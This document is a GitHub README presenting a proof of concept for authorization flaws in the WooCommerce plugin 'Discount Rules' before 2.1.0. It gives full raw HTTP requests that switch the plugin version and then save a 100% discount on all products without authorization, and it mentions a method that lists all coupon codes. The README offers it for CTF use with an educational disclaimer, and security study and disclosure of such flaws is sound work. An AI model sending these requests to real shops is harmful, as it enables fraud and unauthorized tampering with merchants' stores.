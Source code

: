 # Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC
Proof-of-Concept for Discount Rules for WooCommerce &lt; 2.1.0 authorization issues



May be useful in CTF because it's very old.

## Info
The vulnerability makes it possible to send requests to set up discounts and receive coupons without authorization.
More details here: https://patchstack.com/articles/multiple-vulnerabilities-in-discount-rules-for-woocommerce-plugin/

Most interesting AJAX methods are:
- wdr_ajax_cart_coupon - Retrieve the list of all coupon codes
- wdr_ajax_save_rule - Save a discount rule

## Usage
### Firstly, we need to send a request to enable the second version of the vulnerable plugin:
```
POST /?awdr_switch_plugin_to=v2 HTTP/1.1
Host: wp.example.com
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://wp.example.com
Referer: http://wp.example.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cookie: wordpress_test_cookie=WP+Cookie+check; woocommerce_items_in_cart=1; wp_woocommerce_session_40ae737bee04d7f05dfc6771baa425d6=878fc0c71d51694db644a581fd114f1b%7C%7C1698923490%7C%7C1698919890%7C%7Cbe0053b07e3673f00828a41bbb399000; woocommerce_cart_hash=75a9c8b0a8eb0d3560d5d875dbbdeb45
Connection: close
```
You can make sure that the version has been changed by searching for the answer to this request for the phrase “v2”; it should find several occurrences, but nothing will be found for the phrase “v1”.
![set_and_check_version_to_v2](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/4ca44344-dac2-4406-a892-39c70374212a)


### Now we are able to set any discount on all products
- enabled=1 - turn on discount
- filters[1][type]=all_products - to all products
- product_adjustments[type]=percentage - percent discount
- product_adjustments[value]=100 - discount value
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: wp.example.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 409

title=eeeee&enabled=1&current_page=1&discount_type=wdr_simple_discount&action=wdr_ajax&method=save_rule&awdr_nonce=2daef3dee8&wdr_save_close=1&edit_rule=&filters%5B1%5D%5Btype%5D=all_products&product_adjustments%5Btype%5D=percentage&product_adjustments%5Bvalue%5D=100&product_adjustments%5Bcart_label%5D=&additional%5Bcondition_relationship%5D=and&usage_limits=&date_from=&date_to=&wdr_ajax_select2=121bf69698
```
![set_discount](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/b39b4286-bf56-4f86-b08f-0379e69b7155)


Vuln was fixed in version 2.1.0

# Disclamer
This PoC is only meant for educational purposes. You are responsible for your own actions.
